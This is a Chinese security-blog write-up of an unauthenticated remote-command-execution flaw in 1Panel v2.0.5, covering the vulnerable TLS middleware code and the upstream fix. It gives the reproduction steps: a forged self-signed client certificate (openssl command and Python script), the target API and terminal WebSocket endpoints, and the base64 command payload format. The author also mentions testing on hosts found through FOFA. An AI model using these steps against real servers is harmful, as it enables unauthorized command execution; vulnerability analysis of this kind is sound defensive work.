# 1Panel未授权RCE漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/18576  
> **文章ID**: 18576

---

# 1Panel未授权RCE漏洞分析

## 前言

刚睡醒，就看到群里都在转发一个洞，而且官方还很贴心，代码和思路都有，那就也来跟着学习思路了

1Panel hvv 倒是遇到了一些，不过确实没有打

<https://github.com/1Panel-dev/1Panel>

​

仅供安全研究和学习使用。若因传播、利用本文档信息而产生任何直接或间接的后果或损害，均由使用者自行承担，作者不为此承担任何责任。

## 影响版本

1panel V2.0.5

## 简单介绍



简单来说核心就是

攻击者  
 |  
使用自签名证书  
 |  
伪造 CN=panel\_client  
 |  
绕过认证  
 |  
利用接口执行远程命令

主要就是 TLS 认证策略为 tls.RequireAnyClientCert，这个策略就是仅要求提供证书但不验证其可信性

所以任何证书，只要格式对了，就能通过 TLS 握手

## 环境搭建

首先下载 2.0.5 的安装包

<https://1panel.cn/docs/v2/installation/online_installation/>

按照教程

执行以下安装脚本，根据命令行提示完成安装。

bash -c "$(curl -sSL <https://resource.fit2cloud.com/1panel/package/v2/quick_start.sh>)"

这个只会安装最新版的，如果要指定版本的话，可以这样

```
wget https://resource.fit2cloud.com/1panel/package/v2/stable/v2.0.5/release/1panel-v2.0.5-linux-amd64.tar.gz
```

然后解压

```
cd 1panel-v2.0.5-linux-amd64
```

之后运行 sh 脚本

```

./install.sh
```

```
██╗    ██████╗  █████╗ ███╗   ██╗███████╗██╗     
███║    ██╔══██╗██╔══██╗████╗  ██║██╔════╝██║     
╚██║    ██████╔╝███████║██╔██╗ ██║█████╗  ██║     
 ██║    ██╔═══╝ ██╔══██║██║╚██╗██║██╔══╝  ██║     
 ██║    ██║     ██║  ██║██║ ╚████║███████╗███████╗
 ╚═╝    ╚═╝     ╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚══════╝
[1Panel Log]: ======================= 开始安装 ======================= 
设置 1Panel 安装目录 (默认为 /opt): 
[1Panel Log]: 您选择的安装路径是 /opt 
是否要配置镜像加速 [y/n]: y
[1Panel Log]: 配置文件已存在，我们将备份现有的配置文件到:  /etc/docker/daemon.json.1panel_bak. 
[1Panel Log]: 创建新配置文件 /etc/docker/daemon.json... 
[1Panel Log]: 已添加镜像加速配置。 
[1Panel Log]: 正在重启 Docker 服务... 
[1Panel Log]: Docker 服务已成功重启。 
设置 1Panel 端口 (默认是 36132): 
[1Panel Log]: 您设置的端口是:  36132 
[1Panel Log]: 正在打开防火墙端口 36132 
Rule added
Rule added (v6)
Firewall reloaded
设置 1Panel 安全入口 (默认是 xxxx): 
[1Panel Log]: 您设置的面板安全入口是 xxxx 
设置 1Panel 面板用户 (默认是 xxxx): 
[1Panel Log]: 您设置的面板用户是 fd69e2027e 
[1Panel Log]: 设置 1Panel 面板密码，设置后按回车键继续 (默认是 498830d07f):  

[1Panel Log]: 正在配置 1Panel 服务 
Created symlink '/etc/systemd/system/multi-user.target.wants/1panel-agent.service' → '/etc/systemd/system/1panel-agent.service'.
Created symlink '/etc/systemd/system/multi-user.target.wants/1panel-core.service' → '/etc/systemd/system/1panel-core.service'.
[1Panel Log]: 正在启动 1Panel 服务 
[1Panel Log]: 1Panel 服务已成功启动，正在继续执行后续配置，请稍候... 
[1Panel Log]:  
[1Panel Log]: =================感谢您的耐心等待，安装已完成================== 
[1Panel Log]:  
[1Panel Log]: 请使用您的浏览器访问面板:  
[1Panel Log]: 外部地址:  http://175.13.254.253:36132/xxxx 
[1Panel Log]: 内部地址:  http://192.168.111.129:36132/xxxx 
[1Panel Log]: 面板用户:  xxxx 
[1Panel Log]: 面板密码:  xxxx 
[1Panel Log]:  
[1Panel Log]: 官方网站: https://1panel.cn 
[1Panel Log]: 项目文档: https://1panel.cn/docs 
[1Panel Log]: 代码仓库: https://github.com/1Panel-dev/1Panel 
[1Panel Log]: 前往 1Panel 官方论坛获取帮助: https://bbs.fit2cloud.com/c/1p/7                                                                            
[1Panel Log]:  
[1Panel Log]: 如果您使用的是云服务器，请在安全组中打开端口 36132 
[1Panel Log]:  
[1Panel Log]: 为了您的服务器安全，离开此屏幕后您将无法再次看到您的密码，请记住您的密码。                                                                
[1Panel Log]:  
[1Panel Log]: ================================================================              
```



访问给定的地址登录后如图

## 漏洞复现

可能不知道环境哪里还需要配置一下，可能我需要一个节点通信，就 fofa 找了站去测试了

首先这个漏洞简单来说就分为两步，第一步就是生成有效的证书

```
openssl req -x509 -newkey rsa:2048 -keyout panel_client.key -out panel_client.crt -days 365 -nodes -subj "/CN=panel_client"
```

会得到两个文件

或者使用 python 脚本梭哈

```
# generate_cert.py
import datetime
import tempfile
from cryptography import x509
from cryptography.x509.oid import NameOID
from cryptography.hazmat.primitives import hashes, serialization
from cryptography.hazmat.primitives.asymmetric import rsa
import os

def generate_self_signed_cert():
    private_key = rsa.generate_private_key(public_exponent=65537, key_size=2048)
    subject = issuer = x509.Name([
        x509.NameAttribute(NameOID.COMMON_NAME, u"panel_client")
    ])

    cert_builder = x509.CertificateBuilder() \
        .subject_name(subject) \
        .issuer_name(issuer) \
        .public_key(private_key.public_key()) \
        .serial_number(x509.random_serial_number()) \
        .not_valid_before(datetime.datetime.utcnow()) \
        .not_valid_after(datetime.datetime.utcnow() + datetime.timedelta(days=365))

    cert = cert_builder.sign(private_key, hashes.SHA256())

    key_path = "panel_client.key"
    cert_path = "panel_client.crt"

    with open(key_path, 'wb') as f:
        f.write(private_key.private_bytes(
            encoding=serialization.Encoding.PEM,
            format=serialization.PrivateFormat.PKCS8,
            encryption_algorithm=serialization.NoEncryption()
        ))

    with open(cert_path, 'wb') as f:
        f.write(cert.public_bytes(serialization.Encoding.PEM))

    print(f"[+] 已生成证书文件：{cert_path}")
    print(f"[+] 已生成私钥文件：{key_path}")
    return cert_path, key_path

if __name__ == "__main__":
    generate_self_signed_cert()

```

当然直接拿全方位，立体的脚本



看作者找脚本，爆出来不久，脚本不方便贴

脚本的逻辑

生成证书文件后第一步就是验证证书

发送伪造客户端证书的 HTTP 请求

```
GET https://<host>/api/v2/dashboard/base/os
```

然后建立 WebSocket TLS 连接

```
wss://<host>/api/v2/hosts/terminal
```

连接成功后就执行命令了

小改了一手脚本执行 whoami



官方复现使用的是 burp

<https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-8j63-96wh-wh3j>





## 漏洞分析

### 路由鉴权



路由文件很显然



不同的路由点对应不通的功能

随便点击一个  


但是如果直接这样访问路由是不会成功的，因为路由前面我们看到



init 文件，也就是初始化文件下面还有一个路由相关的 go 文件



需要加上路由的前缀

而且验证路由使用的是 middleware.Certificate()

```
func Certificate() gin.HandlerFunc {
    return func(c *gin.Context) {
        if global.IsMaster {
            c.Next()
            return
        }
        if !c.Request.TLS.HandshakeComplete || len(c.Request.TLS.PeerCertificates) == 0 {
            helper.InternalServer(c, errors.New("no such tls peer certificates"))
            return
        }
        cert := c.Request.TLS.PeerCertificates[0]
        if cert.Subject.CommonName != "panel_client" {
            helper.InternalServer(c, fmt.Errorf("err certificate"))
            return
        }
        conn := c.Request.Header.Get("Connection")
        if conn == "Upgrade" {
            c.Next()
            return
        }
        masterProxyID := c.Request.Header.Get("Proxy-Id")
        proxyID, err := cmd.RunDefaultWithStdoutBashC("cat /etc/1panel/.nodeProxyID")
        if err == nil && len(proxyID) != 0 && strings.TrimSpace(proxyID) != strings.TrimSpace(masterProxyID) {
            helper.InternalServer(c, fmt.Errorf("err proxy id"))
            return
        }
        c.Next()
    }
}
```

TLS 验证，是通过判断 HandshakeComplete 的值来确定的

但是没有寻找到 HandshakeComplete 相关赋值的地方，参考情报给出的

<https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-8j63-96wh-wh3j>

具体的实现在 agent/server/server.go



上面已经说了

就是 TLS 认证策略为 tls.RequireAnyClientCert，这个策略就是仅要求提供证书但不验证其可信性，所以任何自签名证书都能通过 TLS 握手。

但是后续还有验证

```
cert := c.Request.TLS.PeerCertificates[0]
        if cert.Subject.CommonName != "panel_client" {
            helper.InternalServer(c, fmt.Errorf("err certificate"))
            return
        }
        conn := c.Request.Header.Get("Connection")
        if conn == "Upgrade" {
            c.Next()
            return
        }
        masterProxyID := c.Request.Header.Get("Proxy-Id")
        proxyID, err := cmd.RunDefaultWithStdoutBashC("cat /etc/1panel/.nodeProxyID")
        if err == nil && len(proxyID) != 0 && strings.TrimSpace(proxyID) != strings.TrimSpace(masterProxyID) {
            helper.InternalServer(c, fmt.Errorf("err proxy id"))
            return
        }
        c.Next()
    }
}
```

提取客户端证书的 CommonName 字段，必须是 "panel\_client"，否则拒绝访问。

这也是为什么生成证书，后面

```
openssl req -x509 -newkey rsa:2048 -keyout panel_client.key -out panel_client.crt -days 365 -nodes -subj "/CN=panel_client"
```

### 命令执行

官方通报了如下几个可以利用的接口

Process WebSocket 接口（根据上述问题可获取所有的进程等敏感信息）  
路由地址: /process/ws  
请求格式如下

```
{
  "type": "ps",           // 数据类型: ps(进程), ssh(SSH 会话), net(网络连接), wget(下载进度)
  "pid": 123,             // 可选，指定进程 ID 进行筛选
  "name": "process_name", // 可选，根据进程名筛选
  "username": "user"      // 可选，根据用户名筛选
}
```

Terminal SSH WebSocket 接口（根据上述问题可执行任意命令）  
路由地址: /hosts/terminal

目前 RCE 主要就是利用的这个接口



格式

```
{
  "type": "cmd",
  "data": "命令的base64编码"
}
```

## 漏洞修复

<https://github.com/1Panel-dev/1Panel/pull/9698/commits/4003284521f8d31ddaf7215d1c30ab8b4cdb0261>



```
server.TLSConfig = &tls.Config{
    Certificates: []tls.Certificate{tlsCert},
    ClientAuth:   tls.RequireAndVerifyClientCert,
}
```

ClientAuth: tls.RequireAndVerifyClientCert: 要求客户端提供证书，并必须校验证书合法性。

```
caItem, _ := settingRepo.GetValueByKey("RootCrt") // 从数据库/配置获取 CA 根证书 PEM 字符串
if len(caItem) != 0 {
    caCertPool := x509.NewCertPool()
    rootCrt, _ := encrypt.StringDecrypt(caItem) // 如果证书加密存储，先解密
    caCertPool.AppendCertsFromPEM([]byte(rootCrt))
    server.TLSConfig.ClientCAs = caCertPool // 设置服务端信任的 CA 池
}
```

只接受服务端签发的证书
